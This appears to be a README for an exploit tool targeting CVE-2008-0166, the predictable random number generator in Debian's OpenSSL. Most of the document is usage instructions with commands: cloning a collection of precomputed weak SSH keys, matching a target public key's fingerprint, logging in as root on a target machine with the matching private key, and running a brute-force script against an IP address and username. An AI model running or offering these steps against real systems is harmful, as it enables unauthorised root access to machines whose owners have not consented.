 # CVE-2008-0166_predictable_prng_ssh_key_bruteforce

## Summary

OpenSSL 0.9.8c-1 up to versions before 0.9.8g-9 on Debian-based operating systems uses a random number generator that generates predictable numbers, which makes it easier for remote attackers to conduct brute force guessing attacks against cryptographic keys. 

## Usage

Clone keys

```sh
git clone https://github.com/g0tmi1k/debian-ssh.git
```

If you have a public key you can look at the fingerprint to try to figure out what private key will work.

```sh
$ ssh-keygen -l -f targetkey.pub
2048 c6:7b:14:fa:ae:b6:89:e6:67:17:ee:04:17:b0:ec:4e targetkey.pub
```
rsa/2048/**c67b14faaeb689e66717ee0417b0ec4e-26670**

Try to find this key in 'rsa/2048/' folder

```sh
ssh -i rsa/2048/c67b14faaeb689e66717ee0417b0ec4e-26670 root@targetmachine
```

Else start a bruteforce. This may take 1-2 hours.

```sh
./brutefoce.py debian-ssh/common_keys xx.xx.xx.xx username
```

## Reference
http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-0166
https://github.com/g0tmi1k/debian-ssh

